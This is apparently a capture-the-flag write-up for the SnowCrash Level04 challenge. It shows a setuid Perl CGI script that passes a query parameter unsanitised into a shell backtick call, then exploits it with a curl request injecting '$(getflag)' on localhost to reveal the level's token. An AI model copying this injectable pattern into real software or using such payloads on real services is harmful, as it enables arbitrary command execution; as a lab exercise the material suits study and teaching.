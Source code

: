 # Level04

## Walkthrough

First, let's check the content of the home directory.

```bash
level04@SnowCrash:~$ ls -la
total 16
dr-xr-x---+ 1 level04 level04  120 Mar  5  2016 .
d--x--x--x  1 root    users    340 Aug 30  2015 ..
-r-x------  1 level04 level04  220 Apr  3  2012 .bash_logout
-r-x------  1 level04 level04 3518 Aug 30  2015 .bashrc
-r-x------  1 level04 level04  675 Apr  3  2012 .profile
-rwsr-sr-x  1 flag04  level04  152 Mar  5  2016 level04.pl
level04@SnowCrash:~$ file level04.pl 
level04.pl: setuid setgid a /usr/bin/perl script, ASCII text executable
```
It looks like the file `level04.pl` is a [Perl](https://en.wikipedia.org/wiki/Perl) script, and as in the last level, the `s` on `level04` permissions indicates the [setuid bit](https://en.wikipedia.org/wiki/Setuid).

```perl
#!/usr/bin/perl
# localhost:4747
use CGI qw{param};
print "Content-type: text/html\n\n";
sub x {
  $y = $_[0];
  print `echo $y 2>&1`;
}
x(param("x"));
```

By analyzing the script, we can quickly understand that it defines a subroutine which receives a parameter and pass it with the `echo` command right after.  
It imports the [CGI](https://en.wikipedia.org/wiki/Common_Gateway_Interface) interface to process HTTP requests, and gets the query parameter `x` which is then passed to the subroutine.
The line `# localhost:4747` could also be a hint: maybe this script is already running on our machine? Let's check that.

```bash
level04@SnowCrash:~$ netstat -tulpn | grep LISTEN
(No info could be read for "-p": geteuid()=2004 but you should be root.)
tcp        0      0 0.0.0.0:4242            0.0.0.0:*               LISTEN      -               
tcp        0      0 127.0.0.1:5151          0.0.0.0:*               LISTEN      -               
tcp6       0      0 :::4646                 :::*                    LISTEN      -               
tcp6       0      0 :::4747                 :::*                    LISTEN      -               
tcp6       0      0 :::80                   :::*                    LISTEN      -               
tcp6       0      0 :::4242                 :::*                    LISTEN      - 
```

That's correct.  
With all the collected information, we can get the current flag by sending a HTTP request to `localhost` on port `4747` with the param `x` set to a command substitution (in our case `getflag`) to run the command during the execution of the Perl script.

```bash
level04@SnowCrash:~$ curl localhost:4747?x='$(getflag)'
Check flag.Here is your token : ne2searoevaevoem4ov4ar8ap
```
